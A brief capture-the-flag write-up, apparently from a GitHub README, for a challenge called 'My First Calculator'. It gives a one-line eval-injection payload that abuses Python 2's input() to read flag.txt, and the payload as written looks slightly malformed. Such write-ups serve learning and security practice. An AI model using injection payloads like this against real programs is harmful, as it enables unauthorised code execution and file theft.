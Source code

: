 # My First Calculator
Use this payload to bypass input() function in python 2 and get the flag:

```
{eval(open('flag.txt\','r').read())}
```